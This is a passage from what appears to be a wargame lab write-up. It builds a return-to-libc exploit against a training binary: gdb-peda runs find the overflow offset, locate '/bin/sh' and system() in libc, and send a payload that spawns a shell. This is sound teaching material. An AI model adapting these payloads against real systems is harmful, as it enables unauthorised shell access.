 Ok, we are **9** bytes off, the **5** bytes on the stack + the **4** bytes stored in the **EIP**.

```nasm
gdb-peda$ r < <(python -c "print('A' * 156 + 'BBBB' + 31 * 'C')")
Starting program: /levels/lab05/lab5C < <(python -c "print('A' * 156 + 'BBBB' + 31 * 'C')")
I included libc for you...
Can you ROP to system()?

Program received signal SIGSEGV, Segmentation fault.

...[snip]...

Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
Better! As stated in the code, the **libc** is included and could be used to do a *ret2libc* exploit. We just need some information like a pointer to "/bin/sh" and *system()*.

```nasm
gdb-peda$ searchmem "/bin/sh" libc
Searching for '/bin/sh' in: libc ranges
Found 1 results, display max 1 items:
libc : 0xb7f83a24 ("/bin/sh")
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e63190 <__libc_system>
```

Now, before running the PoC, let's put a breakpoint at the return address of *copytoglobal()* to check the content of the stack before executing the payload.


```nasm
gdb-peda$ break *copytoglobal+82
Breakpoint 1 at 0x80486bf
gdb-peda$ r < <(python -c "print('A' * 156 + '\x90\x31\xe6\xb7' + 'JUNK' + '\x24\x3a\xf8\xb7' + 31 * 'C')")
Starting program: /levels/lab05/lab5C < <(python -c "print('A' * 156 + '\x90\x31\xe6\xb7' + 'JUNK' + '\x24\x3a\xf8\xb7' + 31 * 'C')")
I included libc for you...
Can you ROP to system()?
[----------------------------------registers-----------------------------------]
EAX: 0x20 (' ')
EBX: 0x41414141 ('AAAA')
ECX: 0x0
EDX: 0x804a060 ('A' <repeats 128 times>)
ESI: 0x41414141 ('AAAA')
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff61c --> 0xb7e63190 (<__libc_system>:    push   ebx)
EIP: 0x80486bf (<copytoglobal+82>:  ret)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80486bc <copytoglobal+79>: pop    esi
   0x80486bd <copytoglobal+80>: pop    edi
   0x80486be <copytoglobal+81>: pop    ebp
=> 0x80486bf <copytoglobal+82>: ret
   0x80486c0 <main>:    push   ebp
   0x80486c1 <main+1>:  mov    ebp,esp
   0x80486c3 <main+3>:  push   edi
   0x80486c4 <main+4>:  push   ebx
[------------------------------------stack-------------------------------------]
0000| 0xbffff61c --> 0xb7e63190 (<__libc_system>:   push   ebx)
0004| 0xbffff620 ("JUNK$:\370\267", 'C' <repeats 31 times>)
0008| 0xbffff624 --> 0xb7f83a24 ("/bin/sh")
0012| 0xbffff628 ('C' <repeats 31 times>)
0016| 0xbffff62c ('C' <repeats 27 times>)
```